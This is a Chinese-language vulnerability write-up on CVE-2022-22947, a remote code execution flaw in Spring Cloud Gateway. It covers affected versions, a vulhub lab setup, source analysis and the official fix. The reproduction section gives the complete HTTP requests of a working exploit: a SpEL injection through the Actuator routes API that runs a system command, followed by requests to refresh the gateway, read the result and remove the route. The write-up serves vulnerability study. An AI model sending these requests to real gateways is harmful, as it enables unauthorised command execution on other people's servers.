# CVE-2022-22947 SpringCloudGateWay 远程代码执行

## 影响版本

Spring Cloud Gateway：
3.1.0
3.0.0 to 3.0.6
Older, unsupported versions are also affected

## 环境搭建

本地调试推荐：

https://github.com/spring-cloud/spring-cloud-gateway/tree/v3.1.0

单纯复现漏洞直接用p牛的docker环境：

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947

## 分析

在官网可以看到SpringCloudGateWay支持通过Actuator端点对网关进行监控和交互，其中还可以删除和创建特定的路由。

https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/

![](img/1.png)

还有一些路由需要的参数

```json
{
  "id": "first_route",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/first"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

以及对上面参数的解释

| Path         | Type   | Description                                                  |
| :----------- | :----- | :----------------------------------------------------------- |
| `id`         | String | The route ID.                                                |
| `predicates` | Array  | The collection of route predicates. Each item defines the name and the arguments of a given predicate. |
| `filters`    | Array  | The collection of filters applied to the route.              |
| `uri`        | String | The destination URI of the route.                            |
| `order`      | Number | The route order.                                             |

filter参数可以定义该路由的Filter,并且可以传递Filter的参数。 SpringCloudGateWay内置了28个Filter，而其中所有的`GateWayFilter`都继承了`ShortcutConfigurable`接口，里面有一个`getValue`静态方法,可以看到里面执行了SPEL表达式,`expression.getValue(context)`![](img/2.png)

调用该`getValue`的地方在该接口的`ShortcutType`枚举类型中的`normalize`方法![](img/3.png)

调用`normalize`的地方则是在对每一个Filter初始化过程中对Filter属性进行解析时

![](img/4.png)

## 复现

1.利用Actuator API添加一个Filter,为该Filter传入一个参数,其值为恶意SPEL表达式

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

2. 利用`actuator/gateway/refresh`接口刷新网关配置,重新加载每一个Filter,导致在加载添加的Filter时解析我们设置的SPEL表达式造成RCE

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

3. 查看回显

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](img/5.png)

4. 删除恶意路由

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

## 修复

https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

从官方链接可以看出使用了`SimpleEvaluationContext`代替了`StandardEvaluationContext`
